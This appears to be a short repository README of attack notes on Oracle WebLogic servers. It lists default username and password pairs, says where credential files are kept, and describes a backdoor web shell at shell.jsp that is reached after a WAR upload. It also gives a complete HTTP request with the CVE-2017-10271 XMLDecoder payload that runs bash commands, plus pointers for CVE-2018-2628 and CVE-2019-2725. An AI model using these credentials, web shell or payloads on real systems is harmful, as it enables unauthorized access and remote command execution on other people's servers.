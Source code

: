 #weblogic



### weak password exploit

using the test.war

some of the default password of weblogic

system:password
weblogic:weblogic
admin:security
joe:password
many:password
system:security
wlcsystem:wlcsystem
wlpisystem:wlpisystem


when uploaded the war successfully, the backdoor will be available at:
xxxx/test666/shell.jsp?cmd=ls


login credentials path:

config/config.xml (node-manager-password-encrypted)
conf/SerializedSystemIni.dat



CVE-2017-10271 XMLDecode unserialize exploit
payload:
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 587

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>ls -al</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```


CVE-2018-2628: Weblogic WLS Core Components deserialization exploit

ysoserial


CVE-2019-2725 exploit analysis:
http://xxlegend.com/2019/04/30/CVE-2019-2725%E5%88%86%E6%9E%90/



